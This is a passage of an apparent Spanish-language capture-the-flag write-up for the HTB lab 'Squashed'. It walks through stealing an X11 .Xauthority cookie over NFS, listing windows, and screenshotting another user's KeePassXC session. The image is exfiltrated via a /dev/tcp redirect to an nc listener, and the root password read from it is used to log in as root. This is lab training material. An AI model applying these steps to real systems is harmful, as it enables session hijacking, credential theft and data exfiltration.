Recordando la montura NFS que realizamos previamente, accedimos al archivo **.Xauthority** mediante el usuario **gzzcoo**. Al estar montado el directorio, pudimos ver el contenido sin restricciones de permisos. Al ejecutar los comandos siguientes. Pudimos obtener el contenido codificado en base64 del archivo.

```bash
gzzcoo@kali:/mnt/ross$ ls -l .Xauthority 
-rw------- 1 gzzcoo gzzcoo 57 feb 16 00:09 .Xauthority
gzzcoo@kali:/mnt/ross$ cat .Xauthority | base64
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABBZM0GBpjmxwg/HEO6G64Sl
```

Para poder aprovechar la información obtenida en el archivo **.Xauthority**, lo que hicimos fue decodificar el contenido base64 y almacenarlo en el archivo **/tmp/.Xauthority**. De esta manera, replicamos el archivo original en nuestro sistema, lo que nos permite emular la autenticación en el servidor X11.

```bash
alex@squashed:/tmp$ echo 'AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABBZM0GBpjmxwg/HEO6G64Sl' | base64 -d > /tmp/.Xauthority
alex@squashed:/tmp$ ls -l .Xauthority 
-rw-r--r-- 1 alex alex 57 Feb 15 23:48 .Xauthority
alex@squashed:/tmp$ xxd .Xauthority 
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 1059 3341 81a6 39b1  OOKIE-1..Y3A..9.
00000030: c20f c710 ee86 eb84 a5                   .........
```

Al exportar la variable de entorno **XAUTHORITY** para que apunte al archivo **/tmp/.Xauthority**, hemos configurado el sistema para que utilice las credenciales del archivo que replicamos. Esto permite que las aplicaciones gráficas, como **xauth** o cualquier aplicación X11, ahora utilicen ese archivo para autenticar al usuario **alex** en el servidor X11.

```bash
alex@squashed:/home/ross$ export XAUTHORITY=/tmp/.Xauthority
alex@squashed:/home/ross$ env
SHELL=bash
PWD=/home/ross
XAUTHORITY=/tmp/.Xauthority
```

Al ejecutar el comando `xwininfo -root -tree -display :0`, encontramos que una de las ventanas abiertas es **"Passwords - KeePassXC"**, que corresponde a la aplicación **KeePassXC**, una herramienta de gestión de contraseñas.

Esto indica que el usuario **ross** tiene abierta una ventana de KeePassXC, y es posible que contenga información sensible como contraseñas. Aprovechando que la aplicación está visible en el servidor X11, tenemos una posible vía para acceder a los datos guardados en ella.

Si conseguimos tomar control sobre la ventana de KeePassXC o interactuar con la sesión, podríamos extraer las contraseñas almacenadas en su base de datos.

```bash
alex@squashed:/tmp$ xwininfo -root -tree -display :0

xwininfo: Window id: 0x533 (the root window) (has no name)

  Root window id: 0x533 (the root window) (has no name)
  Parent window id: 0x0 (none)
     26 children:
     0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
        1 child:
        0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
     0x800022 (has no name): ()  802x575+-1+26  +-1+26
        1 child:
        0x1e00006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64
           1 child:
           0x1e000fe "Qt NET_WM User Time Window": ()  1x1+-1+-1  +-1+63
     0x1e00008 "Qt Client Leader Window": ()  1x1+0+0  +0+0
     0x800017 (has no name): ()  1x1+-1+-1  +-1+-1
     0x2000001 "keepassxc": ("keepassxc" "Keepassxc")  10x10+10+10  +10+10
     0x1e00004 "Qt Selection Owner for keepassxc": ()  3x3+0+0  +0+0
     0x1800001 "evolution-alarm-notify": ("evolution-alarm-notify" "Evolution-alarm-notify")  10x10+10+10  +10+10
     0x1a00002 (has no name): ()  10x10+0+0  +0+0
     0x1600001 "gsd-wacom": ("gsd-wacom" "Gsd-wacom")  10x10+10+10  +10+10
     0x1c00001 "gsd-media-keys": ("gsd-media-keys" "Gsd-media-keys")  10x10+10+10  +10+10
     0x1a00001 "gsd-xsettings": ("gsd-xsettings" "Gsd-xsettings")  10x10+10+10  +10+10
     0x1200001 "gsd-keyboard": ("gsd-keyboard" "Gsd-keyboard")  10x10+10+10  +10+10
     0x1400001 "gsd-color": ("gsd-color" "Gsd-color")  10x10+10+10  +10+10
     0x1000001 "gsd-power": ("gsd-power" "Gsd-power")  10x10+10+10  +10+10
     0xe00003 "ibus-xim": ()  1x1+0+0  +0+0
        1 child:
        0xe00004 (has no name): ()  1x1+-1+-1  +-1+-1
     0xe00001 "ibus-x11": ("ibus-x11" "Ibus-x11")  10x10+10+10  +10+10
     0xa00001 "ibus-extension-gtk3": ("ibus-extension-gtk3" "Ibus-extension-gtk3")  10x10+10+10  +10+10
     0x800011 (has no name): ()  1x1+-100+-100  +-100+-100
     0x80000f (has no name): ()  1x1+-1+-1  +-1+-1
     0x800009 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800007 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800006 "GNOME Shell": ()  1x1+-100+-100  +-100+-100
     0x800001 "gnome-shell": ("gnome-shell" "Gnome-shell")  10x10+10+10  +10+10
     0x600008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800010 "mutter guard window": ()  800x600+0+0  +0+0
```

### Taking a screenshot of another user's display

Al ejecutar el comando `xwd -root -screen -silent -display :0 > screenshot.xwd`, hemos tomado una captura de pantalla de la sesión del usuario **ross** en el servidor X11. La imagen se ha guardado en el archivo **screenshot.xwd**.

Este archivo contiene la imagen de la pantalla del usuario **ross**, la cual puede ser útil para obtener más información visual sobre su actividad. Ahora, para visualizar la imagen, podemos convertirla a un formato más estándar como **PNG** o **JPEG** utilizando una herramienta como **xwdtopnm** o **convert**.

```bash
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ ls -l screenshot.xwd 
-rw-r--r-- 1 alex alex 1923179 Feb 15 23:49 screenshot.xwd
```

Nos pondremos en escucha con `nc` para recibir el archivo `screenshot.xwd`.

```bash
❯ nc -nlvp 443 > screenshot.xwd
listening on [any] 443 ...
```

Enviaremos el archivo mediante el `/dev/tcp`.

```bash
alex@squashed:/tmp$ cat screenshot.xwd > /dev/tcp/10.10.16.3/443
```

Al convertir el archivo `screenshot.xwd` a un formato más accesible como **PNG** utilizando el comando `convert screenshot.xwd screenshot.png`, ahora tenemos una imagen que podemos visualizar. Al abrirla con el comando `open screenshot.png`, podemos observar la captura de pantalla de la sesión del usuario **ross** en su escritorio.

```bash
❯ ls -l screenshot.xwd
.rw-rw-r-- kali kali 1.8 MB Sun Feb 16 00:50:04 2025  screenshot.xwd
❯ file screenshot.xwd
screenshot.xwd: X-Window screen dump image data, version X11, "xwdump", 800x600x24, 256 colors 256 entries
❯ convert screenshot.xwd screenshot.png
❯ file screenshot.png
screenshot.png: PNG image data, 800 x 600, 8-bit/color RGB, non-interlaced
❯ open screenshot.png
```

Al visualizar la captura de pantalla realizada, verificamos que el usuario `ross` tenía una ventana de `KeePassXC` abierta en su sesión y en la cual aparecían las credenciales del usuario `root`.

<figure><figcaption></figcaption></figure>

Probamos de autenticarnos como usuario `root` con las credenciales obtenidas y logramos el acceso. Finalmente, comprobamos la flag de **user.txt**.

```bash
alex@squashed:/tmp$ su root
Password: 
root@squashed:/tmp# cat /root/root.txt 
b75b0297b******************
```
